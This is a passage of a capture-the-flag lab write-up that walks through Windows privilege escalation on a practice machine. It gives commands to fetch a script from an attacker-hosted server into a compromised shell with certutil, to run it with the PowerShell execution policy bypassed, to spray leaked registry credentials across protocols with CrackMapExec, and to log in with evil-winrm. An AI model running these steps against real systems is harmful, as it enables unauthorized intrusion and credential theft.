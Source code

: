 ```bash
# First
## In your terminal
wget https://raw.githubusercontent.com/itm4n/PrivescCheck/master/PrivescCheck.ps1
## And then open HTTP server
python3 -m http.server <PORT>
# Second
## In gained shell
certutil -urlcache -f http://<TUN0>:<PORT>/PrivescCheck.ps1 PrivescCheck.ps1
```

* Executed the script with:

```bash
powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck -Extended -Report PrivescCheck_$($env:COMPUTERNAME) -Format HTML"
```

* Discovered leaked credentials for `jdoe` in the winlogon registry key.&#x20;

<figure><img src="https://i.imgur.com/dpuLZ0M.png" alt=""><figcaption><p><strong>LEAKED CREDS</strong></p></figcaption></figure>

3. **Credential Validation with CrackMapExec:**
   * Validated the discovered credentials using CrackMapExec.

```bash
crackmapexec <PROTOCOL> 10.10.11.250 -u 'user' -p 'password'
```

```bash
for protocol in mssql smb ldap ftp winrm ssh rdp;do crackmapexec $protocol 10.10.11.250 -u 'user' -p 'password';done
```

* Confirmed the credentials' validity over the WinRM protocol.&#x20;

<div align="center">

<figure><img src="https://i.imgur.com/4yND3MR.png" alt=""><figcaption><p><strong>CRACKMAPEXEC</strong></p></figcaption></figure>

</div>

3. **Accessing jdoe's Account with Evil-WinRM:**
   * Gained access to `jdoe` account using Evil-WinRM:

```bash
evil-winrm -i 10.10.11.250 -u "jdoe" -p "password"
```

**Successfully retrieved the user flag**

![we fucked the user UP](https://i.imgur.com/gCo0ZUv.png)

I really nooob in windows PrivEsc so after long day with mess and cyber community tips I got this:

4. **Exploiting CVE-2016-1417 for Administrator Access:**

* Identified the machine's vulnerability to CVE-2016-1417 (DLL hijacking in Snort 2.9.7.0-WIN32).
* Created a DLL payload with msfvenom:
